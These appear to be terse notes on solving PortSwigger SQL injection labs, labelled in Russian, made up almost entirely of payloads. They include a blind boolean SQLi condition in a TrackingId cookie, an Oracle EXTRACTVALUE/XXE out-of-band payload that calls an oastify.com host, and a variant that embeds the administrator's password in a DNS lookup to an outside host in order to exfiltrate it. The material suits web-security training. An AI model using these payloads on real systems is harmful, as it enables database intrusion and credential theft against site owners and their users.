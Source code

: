 ```TrackingId=j6oKBZ3hNPucIvR3' AND (SELECT 'a' FROM users LIMIT 1)='a;```

Задача: https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band

```'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f<!DOCTYPE+root+[<!ENTITY+%25+remote+SYSTEM+"http%3a//c7kb241mbka355xndhrfe0l0lrrifc31.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--```


Задача: https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration
```'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[ <!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.fxges7rp1n06v8nq3khi43b3buhl5gt5.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--; session=JyMoujxIe1e2qhTiPPSl0qyFI7Xm77h5```

задача: https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding

